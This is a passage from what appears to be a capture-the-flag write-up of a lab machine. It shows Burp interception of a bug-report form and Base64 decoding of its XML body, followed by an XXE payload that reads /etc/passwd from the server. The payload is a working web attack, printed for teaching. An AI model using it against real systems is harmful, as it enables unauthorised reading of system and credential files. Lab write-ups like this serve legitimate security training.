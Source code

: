Looking at the website, we discovered a `log_submit.php` endpoint. This page contains a form that can be submitted. We will then try to send a POST request to the backend server and intercept it with Burp. From the requests intercepted by Burp, we realize that the POST request is being redirected to the `/tracker_diRbPr00f314.php` endpoint that we found earlier. Apart from that, the payload in the request body also seems to have been URL encoded. 

![Burp request](../assets/bounty_hunter/burp.png){: width="500"}

Next we will first URL decode the payload. However, we realize that the payload is still encoded. But now, we realize that this encoded payload can be easily decoded with Base64 encoding. The final encoded payload matches the XML that we have obtained from the `bountylog.js` file that we have found earlier. This gives us the idea that we could do an XML injection on the payload.

```bash
┌──(kali㉿kali)-[~]
└─$ echo PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT50ZXN0PC90aXRsZT4KCQk8Y3dlPnRlc3Q8L2N3ZT4KCQk8Y3Zzcz50ZXN0PC9jdnNzPgoJCTxyZXdhcmQ+dGVzdDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg== | base64 --decode
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>test</title>
                <cwe>test</cwe>
                <cvss>test</cvss>
                <reward>test</reward>
                </bugreport> 
```

So now we will modify the payload to exfiltrate data from ```/etc/passwd``` file. (Note that we will still have to base 64 encode and URL encode the payload). The response that we received from the webserver revealed the ```/etc/passwd``` file, which confirmed that this webserver is vulnerable to XML injection. 


```bash
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```
